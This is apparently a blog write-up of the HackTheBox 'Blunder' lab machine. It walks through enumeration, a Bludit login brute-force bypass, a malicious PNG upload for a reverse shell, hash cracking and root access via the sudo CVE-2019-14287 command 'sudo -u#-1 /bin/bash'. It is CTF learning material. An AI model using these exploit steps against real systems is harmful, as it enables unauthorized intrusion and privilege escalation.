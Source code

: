 ```yaml
---
layout: post
title: HackTheBox - Blunder
date: 2021-01-20 17:37:00 +0100
tags: [HackTheBox]
image: /assets/img/htb/machines/linux/easy/blunder/Blunder.png
---
```


## Enumeration

### `nmap` scan

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Blunder-full-port-scan.txt 10.10.10.191
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
{% endhighlight %}

### Apache/2.4.41 (port 80)

![Apache 2.4.41](/assets/img/htb/machines/linux/easy/blunder/80.png)

#### `gobuster`

{% highlight bash %}
$  gobuster dir -u http://$TARGET/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x .txt
#...
/0 (Status: 200)
/LICENSE (Status: 200)
/about (Status: 200)
/admin (Status: 301)
/cgi-bin/ (Status: 301)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
#...
{% endhighlight %}

#### `/todo.txt`

![todo.txt](/assets/img/htb/machines/linux/easy/blunder/80-todo.png)

We identified a potential user: `fergus`

#### `/admin` (BLUDIT)

On `/admin` we can see there is a [Bludit](https://www.bludit.com/) (CMS) login page:

![Bludit](/assets/img/htb/machines/linux/easy/blunder/80-admin-bludit.png)

Looking at HTML source code, I found that:

![Bludit version](/assets/img/htb/machines/linux/easy/blunder/80-bludit-version.png)

I assumed that **Bludit**'s version was `3.9.2`: 

#### searchsploit

There are some exploits against Bludit:

![searchsploit](/assets/img/htb/machines/linux/easy/blunder/searchsploit.png)

`multiple/webapps/48701.txt` allows us to obtain a reverse shell but it requires authentification.

`php/webapps/48942.py` can be used to bypass brute force protection.

## Foothold

### CeWL - Custom Word List generator

Using a cool tool named `cewl`, we can generate a custom wordlist based on website keywords:

{% highlight bash %}
$ cewl http://10.10.10.191/ > cewl-wordlist.txt
{% endhighlight %}

![cewl](/assets/img/htb/machines/linux/easy/blunder/cewl.png)

### 48942.py - Bludit Auth Bruteforce Bypass

I copied `/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt` as `users.txt` and I added `fergus` to this wordlist .

Then I ran `48942.py`: 

{% highlight bash %}
$  python3 48942.py -l http://10.10.10.191/admin/login.php -u users.txt -p cewl-wordlist.txt
{% endhighlight %}

> The trick part of this bruteforce protection bypass is the HTTP header `X-FORWARDED-FOR` as explained in [Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/).

SUCCESS! The password of `fergus` is `RolandDeschain`:

![SUCCESS](/assets/img/htb/machines/linux/easy/blunder/SUCCESS.png)

### 48701.py - Directory Traversal

`multiple/webapps/48701.txt` comes with a python script that need some parameters:
- target URL
- a valid username
- a valid password
- a malicious PNG image containing PHP code with reverse shell (we can use `msfvenom`)
- an `.htaccess` file with specifics instructions  

![48701.py](/assets/img/htb/machines/linux/easy/blunder/48701.png)

### Reverse shell

Then we have to visit [http://10.10.10.191/bl-content/tmp/temp/evil.png](http://10.10.10.191/bl-content/tmp/temp/evil.png) and we got a shell:

![reverse-shell](/assets/img/htb/machines/linux/easy/blunder/reverse-shell.png)

> I used `msfvenom` to generate `evil.png` in the first place, but finally I replaced it with [tiny PHP/bash reverse shell](https://gist.github.com/rshipp/eee36684db07d234c1cc) because I couldn't upgrade my shell using `msfvenom` solution.

After getting a shell, I executed `linpeas.sh` and I saw a potential password in `/var/www/bludit-3.10.0a/bl-content/databases/users.php`:

![password](/assets/img/htb/machines/linux/easy/blunder/DB_PASS.png)

{% highlight php %}
$ cat /var/www/bludit-3.10.0a/bl-content/databases/users.php    
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
{% endhighlight %}

It is a hexadecimal string of length 40 so it's certainly a hash and not a password!

![SHA1](/assets/img/htb/machines/linux/easy/blunder/SHA1.png)

### `hashcat` rule based attack

Let's try to crack it via `hashcat`:

{% highlight bash %}
$ echo -n "faca404fd5c0a31cf1897b823c695c85cffeb98d" > hash.txt 
$ hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
#...
faca404fd5c0a31cf1897b823c695c85cffeb98d:Password120
#...
{% endhighlight %}

> We could also use [md5decrypt.net](https://md5decrypt.net/en/Sha1/).

## User (hugo)

We can log in as `hugo` with the password we just found: `Password120`.

{% highlight bash %}
www-data@blunder:/tmp$ su hugo
Password: Password120
hugo@blunder:~$ id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
hugo@blunder:~$ cat user.txt
4136078049bf0679491413a880cb1b42
hugo@blunder:~$ sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
{% endhighlight %}

`sudo`'s version is `1.8.25` is vulnerable to `CVE-2019-14287` that could allow privilege escalation, even though the configuration explicitly disallows this.

The vulnerability affects all Sudo versions prior to the latest released version `1.8.28`.

![sudo version](/assets/img/htb/machines/linux/easy/blunder/sudo.png)

![google search](/assets/img/htb/machines/linux/easy/blunder/google.png)

![attack scenario](/assets/img/htb/machines/linux/easy/blunder/root-hacking.png)

## Privesc to root

{% highlight bash %}
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: Password120
root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
dc6cb3733fe01dafef1eecfc147f56eb
{% endhighlight %}

___

## Useful links

- [Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)
- [CVE-2019-17240 - Bludit bypass a brute-force protection](https://nvd.nist.gov/vuln/detail/CVE-2019-17240)
- [CVE-2019-16113 - Bludit remote code execution](https://nvd.nist.gov/vuln/detail/CVE-2019-16113)
- [Rule-based Attack](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- [sudo 1.8.27 - Security Bypass](https://www.exploit-db.com/exploits/47502)
- [CVE-2019-14287 - sudo underflow](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)
- [Sudo Flaw Lets Linux Users Run Commands As Root Even When They're Restricted](https://thehackernews.com/2019/10/linux-sudo-run-as-root-flaw.html)